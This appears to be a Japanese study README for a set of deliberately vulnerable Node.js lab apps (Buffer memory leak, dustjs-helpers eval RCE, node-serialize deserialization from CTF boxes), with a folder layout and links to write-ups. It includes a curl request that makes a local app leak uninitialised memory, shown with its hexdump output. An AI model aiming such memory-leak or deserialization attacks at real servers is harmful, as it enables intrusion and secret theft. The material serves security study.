 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**

- [脆弱なアプリ](#%E8%84%86%E5%BC%B1%E3%81%AA%E3%82%A2%E3%83%97%E3%83%AA)
  - [Buffer](#buffer)
  - [dustjs-helper](#dustjs-helper)
  - [node-serialize (Celestial)](#node-serialize-celestial)
  - [node-serialize (temple of doom)](#node-serialize-temple-of-doom)
- [サンプルアプリ](#%E3%82%B5%E3%83%B3%E3%83%97%E3%83%AB%E3%82%A2%E3%83%97%E3%83%AA)
  - [progate](#progate)
- [フォルダ構成](#%E3%83%95%E3%82%A9%E3%83%AB%E3%83%80%E6%A7%8B%E6%88%90)
- [メモ](#%E3%83%A1%E3%83%A2)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->
# 脆弱なアプリ
## Buffer
https://www.smrrd.de/nodejs-hacking-challenge-writeup.html   
の脆弱なアプリ。   
`./routes/index.js`の以下の部分が脆弱。`new Buffer("admin password")`の部分に`new Buffer(100)`となるようにJSONリクエストの内容を変更すれば、メモリが100バイト分返ってくる。   
以下は正常な場合の文字列を送信した挙動。   
![image](https://user-images.githubusercontent.com/56021519/101337517-1bb9c300-38bf-11eb-82ac-88e99a69edca.png)   
以下は文字列ではなく数値を送信した挙動。   
![image](https://user-images.githubusercontent.com/56021519/101337601-37bd6480-38bf-11eb-93f4-58d5fdcd7b23.png)   
curlでこれを何回か繰り返せばsessionの署名に使う暗号化キーが得られるらしいが、自分でやったときは何回やっても得られなかった…NodeJSのバージョンを落とさないとダメなのか？？   
```txt
root@kali:~/Documents/AWAE/nodejs# curl http://localhost:3000/login -X POST -H "Content-Type: application/json" --data "{\"password\": 100}" | hexdump -C
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   662  100   645  100    17   125k   3400 --:--:-- --:--:-- --:--:--  129k
00000000  7b 22 73 74 61 74 75 73  22 3a 22 65 72 72 6f 72  |{"status":"error|
00000010  22 2c 22 65 72 72 6f 72  22 3a 22 70 61 73 73 77  |","error":"passw|
00000020  6f 72 64 20 77 72 6f 6e  67 3a 20 5c 75 30 30 30  |ord wrong: \u000|
00000030  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000040  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000050  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000060  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000070  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000080  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000090  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000000a0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000000b0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000000c0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000000d0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000000e0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000000f0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000100  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000110  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000120  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000130  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000140  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000150  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000160  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000170  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000180  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000190  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000001a0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000001b0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000001c0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
000001d0  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
000001e0  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
000001f0  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000200  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000210  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000220  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000230  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000240  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000250  30 30 30 5c 75 30 30 30  30 5c 75 30 30 30 30 5c  |000\u0000\u0000\|
00000260  75 30 30 30 30 5c 75 30  30 30 30 5c 75 30 30 30  |u0000\u0000\u000|
00000270  30 5c 75 30 30 30 30 5c  75 30 30 30 30 5c 75 30  |0\u0000\u0000\u0|
00000280  30 30 30 22 7d                                    |000"}|
00000285
```
## dustjs-helper
if helperのevalと不十分な入力検証でRCEできる脆弱なNode.jsモジュール。   
https://github.com/linkedin/dustjs   
https://github.com/linkedin/dustjs-helpers/blob/03cd65f51a/README.md   
よくわからんけどどうやら修正されてないっぽい。   
## node-serialize (Celestial)
HackTheBoxのCelestialでこのモジュールの逆シリアライズの脆弱性がある。   
https://github.com/takabaya-shi/CTF-writeup/blob/master/HackTheBox/celestial/README.md   
にWriteupを書いた。   
## node-serialize (temple of doom)
Vulnhubのtemple of doomでCelestialと同じの逆シリアライズの脆弱性がある。   
https://github.com/takabaya-shi/CTF-writeup/tree/master/Vulnhub/temple%20of%20doom   

# サンプルアプリ
## progate
プロゲートの無料のアプリ。
# フォルダ構成
```txt
.
├── app.js				// expressサーバーの設定
├── bin
│   └── www				// サーバーの起動
├── package.json
├── public				// 静的ファイル置き場
│   ├── images
│   ├── javascripts
│   └── stylesheets
│       └── style.css
├── routes				// サーバー側のコントローラ
│   ├── index.js
│   └── users.js
└── views					// サーバー側で画面を作成する際のテンプレート
    ├── error.jade
    ├── index.jade
    └── layout.jade
```
# メモ
https://www.smrrd.de/nodejs-hacking-challenge.html   
にNodeJSのハッキングチャレンジ記事がある   
https://medium.com/bugbountywriteup/nodejs-ssrf-by-response-splitting-asis-ctf-finals-2018-proxy-proxy-question-walkthrough-9a2424923501   
NodeJSのSSRFのWriteup？的なものがある   
https://medium.com/egghunter/node-1-vulnhub-walkthrough-5635aa56cc74   
NodeJSのapp.jsはデータベースのデータをコマンドとして実行しようとするので、データベースに任意のコマンドを書き込む。シェルをゲット後の話。   
https://mars-cheng.github.io/blog/2018/Vulnhub-Temple-of-Doom-1-Write-up/   
node-serialize remote code execution(CVE-2017-5941)らしい。よさそう。   
https://www.hackingarticles.in/moonraker1-vulnhub-walkthrough/   
Node.js deserialization exploit for RCE   
https://cybervaultsec.com/ceh/hackthebox-celestial/   
HackTheBoxのCelestical.NodeJSのデシリアライズっぽい。   
https://www.doyler.net/security-not-included/nodejs-code-injection   
NodeJSのコマンドインジェクションのWriteup   
   
https://gist.github.com/mitsuruog/fc48397a8e80f051a145   
Nodejsの基本   
https://developer.mozilla.org/ja/docs/Learn/Server-side/Express_Nodejs/Introduction   
Node.jsの基本   
